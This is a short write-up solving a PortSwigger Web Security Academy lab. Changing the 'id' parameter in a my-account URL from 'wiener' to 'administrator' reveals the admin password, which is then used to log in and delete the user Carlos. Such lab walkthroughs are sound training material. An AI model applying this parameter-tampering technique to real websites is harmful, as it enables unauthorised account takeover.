 # User ID controlled by request parameter with password disclosure
Lab URL :- 

`https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-password-disclosure`

![image](https://user-images.githubusercontent.com/60841283/154559653-a0a0e626-67e0-4d3c-9479-2dbe7887d149.png)

## Solution
Login with given creds.

URL :- 

`https://ac411f831f3df7a2c05b948200b1004a.web-security-academy.net/my-account?id=wiener`

![image](https://user-images.githubusercontent.com/60841283/154559833-cc004c72-87d9-4c1d-872b-22b98882471f.png)

`https://ac411f831f3df7a2c05b948200b1004a.web-security-academy.net/my-account?id=administrator`

![image](https://user-images.githubusercontent.com/60841283/154560065-68a3ec45-99c9-4258-b653-4325e48de32e.png)

Login as administrator and delete Carlos.

![image](https://user-images.githubusercontent.com/60841283/154559702-caca8228-1038-4ce1-a65e-bdf91c65c1f6.png)
